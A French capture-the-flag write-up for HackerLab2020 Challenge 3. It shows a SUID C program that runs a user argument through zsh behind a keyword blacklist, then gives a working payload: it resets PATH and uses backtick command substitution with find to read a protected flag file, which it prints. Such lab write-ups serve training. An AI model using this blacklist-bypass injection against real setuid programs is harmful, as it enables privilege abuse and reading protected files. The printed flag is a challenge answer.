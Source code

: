 # HackerLab2020 - Challenge 3

## Challenge

Après connexion sur le serveur ssh, nous avons des fichiers dont un fichier SUID _chal0x01_ et un fichier source _chal0x01.c_ , dont le contenu est le suivant :
```c
#define _XOPEN_SOURCE
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>

int covider(char* command){
	int out=0;
	out += strstr(command, "f_l_a_g_")!=0;
	out += strstr(command, "_")!=0;
	out += strstr(command, "*")!=0;
	return out;
}
int main(int argc, char* argv[], char** envp){
	putenv("PATH=/jinfectetonpathalacovid");
	if(covider(argv[2])) return 0;
	int ret;
	ret = execl ("/usr/bin/zsh", "zsh","-c", argv[2],(char *)0);

	return 0;
}
```
# Solution
Il faut comprendre d'abord qu'il y a un control sur le deuxième argument du programme. A cet effet, la réussite de cette épreuve sera effective lorsque nous arrivons à afficher le contenu du fichier *f_l_a_g_* sans utiliser les caractères ou expressions blacklistés.

Dans un premier temps, nous avons vérifié la taille du fichier *f_l_a_g_* en question puis effectué un filtre dessus tout en bypassant les caractères blacklistés et maintenir la variable _$PATH_ intacte.

```bash
chal0x01@vps-dc68098a:~$ ls -lh
total 28K
-rwsr-sr-x 1 chal0x01_pwn chal0x01_pwn 17K août  18 12:06 chal0x01
-r--r----- 1 chal0x01_pwn chal0x01     470 août  18 12:06 chal0x01.c
-r-------- 1 chal0x01_pwn chal0x01     253 août  18 11:06 f_l_a_g_
chal0x01@vps-dc68098a:~$ ./chal0x01 inspiv 'PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games&&more `find /home/chal0x01 -type f -size 253c`'
Félicitations. Si tu as pu lire ce fichier, c'est que tu remplis les conditions necessaires pour participer à la phase finale du HackerLab2020.
Il s'agit pour toi maintenant de t'entrainer plus que jamais!
Voici le flag final!
CTF_Kephren_1s_Th3_g0@t
chal0x01@vps-dc68098a:~$
```

Payload: ```./chal0x01 inspiv 'PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games&&more `find /home/chal0x01 -type f -size 253c`'```

```
FLAG: CTF_Kephren_1s_Th3_g0@t
```
